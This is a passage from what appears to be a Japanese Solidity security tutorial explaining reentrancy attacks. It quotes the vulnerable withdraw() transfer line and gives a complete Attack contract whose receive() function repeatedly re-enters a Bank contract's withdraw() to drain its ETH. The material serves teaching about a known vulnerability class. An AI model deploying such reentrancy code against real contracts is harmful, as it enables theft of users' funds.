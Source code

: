 ```solidity

    // 銀行コントラクトの残高を取得
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

### 攻撃コントラクト

リエントランシー攻撃の攻撃ポイントの一つは、コントラクトが`ETH`を送金する箇所です：送金先アドレスがコントラクトの場合、相手コントラクトの`fallback`（フォールバック）関数がトリガーされ、循環呼び出しの可能性が生まれます。フォールバック関数について詳しく知らない場合は、[WTF Solidity 極簡チュートリアル第19講：ETHの受け取り](https://github.com/AmazingAng/WTF-Solidity/blob/main/19_Fallback/readme.md)をお読みください。`Bank`コントラクトの`withdraw()`関数には`ETH`送金があります：

```
(bool success, ) = msg.sender.call{value: balance}("");
```

もしハッカーが攻撃コントラクトの`fallback()`または`receive()`関数内で`Bank`コントラクトの`withdraw()`関数を再度呼び出した場合、`0xAA`の銀行強盗の物語のような循環呼び出しが発生し、`Bank`コントラクトが攻撃者に継続的に送金し、最終的にコントラクトの`ETH`を空にしてしまいます。

```solidity
    receive() external payable {
        bank.withdraw();
    }
```

以下は攻撃コントラクトです。ロジックは非常にシンプルで、`receive()`フォールバック関数を通じて`Bank`コントラクトの`withdraw()`関数を循環呼び出しします。1つの状態変数`bank`で`Bank`コントラクトのアドレスを記録します。4つの関数を含んでいます：

- コンストラクタ: `Bank`コントラクトのアドレスを初期化します。
- `receive()`: コールバック関数。`ETH`を受け取る時にトリガーされ、再度`Bank`コントラクトの`withdraw()`関数を呼び出し、循環的に出金します。
- `attack()`：攻撃関数。まず`Bank`コントラクトの`deposit()`関数で預金し、その後`withdraw()`を呼び出して最初の出金を開始します。その後、`Bank`コントラクトの`withdraw()`関数と攻撃コントラクトの`receive()`関数が循環呼び出しされ、`Bank`コントラクトの`ETH`を空にします。
- `getBalance()`：攻撃コントラクト内の`ETH`残高を取得します。

```solidity
contract Attack {
    Bank public bank; // Bankコントラクトアドレス

    // Bankコントラクトアドレスを初期化
    constructor(Bank _bank) {
        bank = _bank;
    }

    // コールバック関数、Bankコントラクトへのリエントランシー攻撃に使用、対象のwithdraw関数を繰り返し呼び出す
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻撃関数、呼び出し時msg.valueを1 etherに設定
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // このコントラクトの残高を取得
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```
